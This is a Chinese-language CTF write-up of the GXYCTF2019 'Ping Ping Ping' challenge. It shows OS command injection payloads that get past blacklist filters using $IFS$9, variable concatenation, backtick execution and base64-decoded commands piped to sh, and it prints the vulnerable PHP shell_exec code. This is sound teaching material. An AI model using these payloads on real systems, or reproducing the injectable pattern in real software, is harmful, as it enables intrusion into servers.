


接上一篇文章Ping命令执行漏洞1，干货依旧满满！！！

<!-- more -->

## 前言

接上一篇**Ping命令执行漏洞1**的实战讲解,这一篇主要就是讲 **[GXYCTF2019]Ping Ping Ping1**这道题。这里提供了三个解法哦，还是有新收获的！

### 实战讲解

例题是，[GXYCTF2019]Ping Ping Ping1。先看看题目是啥


<div align=center></div>

照例，传入**localhost**看看靶机的系统，构造payload: **/?ip=localhost**

<div align=center></div>

ttl小于100，靶机的系统为linux

和之前的题目一样,先看看当前目录的文件，传入payload: **/?ip=1;ls**

<div align=center></div>

看到有index.php 和 flag.php 两个文件

直接传入 **/?ip=1;cat flag.php** 查看flag

<div align=center></div>

发现空格被检测出来，过滤掉了

利用之前学的**必备技巧2：特殊字符代替空格(绕过空格)**：
   - `<` 
   - ` <> `
   - ` $IFS `
   - ` ${IFS} `
   - ` $IFS$9 `    9可以换成任何一个数字
   - ` %09 ` 

最后发现只有 ` $IFS$9 ` 能用，替换空格后payload变成：` /?ip=1;cat$IFS$9flag.php `。但是传入之后还是不行，flag这几个字符也被检测过滤了。(图片我就不放了，你们自己试试就知道)

那我们先看看index文件，传入 ` /?ip=1;cat$IFS$9index.php `

<div align=center></div>

可以看到这里面是服务器后端的代码，里面有一些列过滤规则
```
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);

      // 过滤 & / ? * < x{00}到x{20} > ' " \ ( ) [ ] { }
      // \& \/ \? \* 斜杆后面的字符就是过滤的字符，| 表示或

    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");

      // 过滤 空格

  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");

      // 过滤 bash

  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");

      // 过滤 flag（严格来说，是字符串中，flag依序出现的都被过滤）

  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

知道过滤规则了，开始尝试绕过

#### 解法1： 变量拼接字符串

构造payload：` /?ip=1;a=g;cat$IFS$9fla$a.php `,让变量a代替flag的g这个字母，绕过字符串检测。

注意 ` a=g ` 是在linux系统的命令赋值，我们并不是在php中赋值，不用加dollar符号 ` $a=g `。（这个我之前不小心就想错了，这里顺便提一嘴）

传入看看结果

<div align=center></div>

什么都没有显示，F12看看源代码，在里面找到了。

<div align=center></div>

我估计是因为flag.php里面的代码就是下面这样。
```
<!--?php
$flag = "flag{96a64cad-c9b8-43c9-b286-d161b157ad06}";
?--> 
```
代码已经用html的注释标签注释了，所以输入出来直接不显示。

#### 解法2：内联执行

内联函数：将指定的函数体插入并取代每一处调用该函数的地方。

反引号在linux中作为内联执行，执行输出结果。也就是说

cat `` `ls`  `` 执行ls输出 index.php 和 flag.php 。然后再执行 cat flag.php;cat index.php

构造payload: ``` /?ip=1;cat$IFS$9`ls` ```传入，F12查看源代码

<div align=center></div>

可以这里的body页面，不仅输出了flag.php，还输出了index.php

#### 解法3：sh命令来执行（用base64绕过）

这个有点类似我们之前讲的**PHP伪协议1**中的base64绕过原理，就是把源代码先base64使其代码执行失效，并把它打印到页面出来，我们再对加密后的源代码进行base64解密，就可以看到源代码是什么了。

这里我又要补充一下linux进行base64加密解密的代码了.

linux的base64加密命令：
   - `` cat file | base64 `` :从文件中读取并编码为base64字符串
   - ` base64file file.txt ` : 同上，也是从文件中读取并编码为base64字符串（base64file是一起的，不能分开）
   - ` echo "Hello World" | base64 ` :将字符串编码为base64字符串
   - ` echo -n "Hello World" | base64 `: 将字符串编码为base64字符串（不添加换行符）

linux的base64解密命令：
   - ` base64-d file.txt ` : 从文件中读取已编码的数据并解码
   - ` echo "base64_encoded_string" | base64 -d ` : 对base64编码的字符串进行解码
   - ` echo -n "base64_encoded_string" | base64 -d `: 对base64编码的字符串进行解码（不添加换行符）
   - ` echo "base64_encoded_string" | base64 -d | sh `: 对base64编码的字符串进行解码，并且对解码后的字符串命令进行执行

了解以上知识后，我们举例下面几个可以查看flag命令：

**加密命令**：` echo "cat flag.php" | base64 `

**解密命令并执行**: ` echo Y2F0IGZsYWcucGhwCg== | base64 -d | sh ` 。对 ` Y2F0IGZsYWcucGhwCg==base64 ` 解密得到 ` cat flag.php ` 并且进行执行。

我们利用解密命令，注意空格符号会被过滤，全部用 ` $IFS$9 ` 代替空格即可。

所以最终的payload如下：` /?ip=;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh `。（这次的payload我没有填ip地址，单纯是不想让他输出而已，你想加一个ip地址也可以）

最后的结果也是一样的，网页显示不出来，要在F12源代码中查看。

如果我硬要你显示出来在网页呢？那就再**base64加密一次**，这样你的注释符号全部统统被我加密去掉了。payload就是再补充一个 ` |$IFS$9base64 ` 即可。

即` /?ip=;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh|$IFS$9base64 `

结果如下：

<div align=center></div>

可以看到网页成功显示出base64加密的编码了，下面的php代码就是base64解密之后的源代码。

如果你能够**充分理解**原理，你可以**构造各种各样的字符串**来实现你的目的。

这里我再提供另一个payload，效果差不多 

payload: `` /?ip=;cat$IFS$9`echo$IFS$9ZmxhZy5waHA=$IFS$9|$IFS$9base64$IFS$9-d`|$IFS$9base64 ``

原理是先对 ` $IFS$9ZmxhZy5waHA=$IFS$9 ` base64解码，得到字符串**flag.php**,再 ` cat flag.php | base64 `,获取**flag.php**的内容并且base64加密,以便在网页里显示。(注意这里的**cat命令**是不能添加 **-n** 来去掉换行符的，它和**echo命令**不一样，别乱用)

## 结语

我的天呐！终于搞定了，东西是真多的。CTF一个题型可以展开多少东西来讲，涉及到多少知识点啊。这就是网安的魅力吗？
